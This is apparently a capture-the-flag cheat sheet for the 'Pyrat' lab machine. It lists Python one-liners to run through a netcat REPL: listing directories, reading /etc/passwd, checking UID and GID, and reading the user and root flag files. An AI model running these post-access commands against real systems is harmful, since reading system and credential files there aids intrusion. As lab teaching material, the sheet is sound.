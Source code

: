 
### 🐍 Python One-Liners for Navigation in Netcat

#### 📂 List directories

```python
import os; print(os.listdir("/"))
```

List contents of `/home`:

```python
import os; print(os.listdir("/home"))
```

#### 📖 Read a file

```python
print(open("/etc/passwd").read())
```

Or:

```python
print(open("/home/pyrat/user.txt").read())
```

#### 📌 Get current working directory

```python
import os; print(os.getcwd())
```

#### 🔁 Change directory

```python
import os; os.chdir("/home/pyrat"); print(os.listdir())
```

#### 👤 Get username

```python
import os; print(os.getlogin())
```

#### 🆔 Get UID/GID

```python
import os; print(os.getuid(), os.getgid())
```

---

### 🔑 Quick Workflow in Pyrat

From your nc Python REPL:

1. See where you are:

   ```python
   import os; print(os.getcwd())
   ```
2. Check `/home`:

   ```python
   import os; print(os.listdir("/home"))
   ```
3. Read the user flag:

   ```python
   print(open("/home/pyrat/user.txt").read())
   ```
4. Look into `/root` for the root flag:

   ```python
   print(open("/root/root.txt").read())
   ```
